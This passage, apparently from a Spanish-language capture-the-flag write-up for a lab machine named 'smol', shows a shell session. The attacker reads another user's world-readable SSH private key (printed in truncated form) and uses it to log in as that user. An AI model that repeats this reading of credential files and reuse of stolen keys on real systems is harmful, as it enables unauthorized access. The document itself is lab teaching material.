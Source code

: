 ```
drwx------ 3 1000 1000 4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 1000 1000  807 Jun  2  2023 .profile
drwxr-xr-x 2 1000 1000 4096 Jun 21  2023 .ssh
lrwxrwxrwx 1    0    0    9 Aug 18  2023 .viminfo -> /dev/null
diego@smol:/home/think$ cd .ssh/
diego@smol:/home/think/.ssh$ ls -lna
total 20
drwxr-xr-x 2 1000 1000 4096 Jun 21  2023 .
drwxr-x--- 5 1000 1005 4096 Jan 12  2024 ..
-rwxr-xr-x 1 1000 1000  572 Jun 21  2023 authorized_keys
-rwxr-xr-x 1 1000 1000 2602 Jun 21  2023 id_rsa
-rwxr-xr-x 1 1000 1000  572 Jun 21  2023 id_rsa.pub
diego@smol:/home/think/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<SNIP>
BRQZtfjMvJ44sj9Oi4aE
81DXo7MfGm0bSFAAAAEnRoaW5rQHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
diego@smol:/home/think/.ssh$ 
```

Nos conectamos por **SSH** con el usuario *think*, vemos que pertenecemos al grupo *dev* e *internal*: 
```
ssh think@smol.thm -i files/think-id_rsa  
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 28 Jan 2025 06:39:58 PM UTC

  System load:  0.01              Processes:             126
  Usage of /:   56.9% of 9.75GB   Users logged in:       0
  Memory usage: 14%               IPv4 address for ens5: 10.10.29.247
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

162 updates can be applied immediately.
125 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jan 28 18:27:14 2025 from 10.9.3.149
think@smol:~$ ls -lna
total 32
drwxr-x--- 5 1000 1005 4096 Jan 12  2024 .
drwxr-xr-x 6    0    0 4096 Aug 16  2023 ..
lrwxrwxrwx 1    0    0    9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 1000 1000 3771 Jun  2  2023 .bashrc
```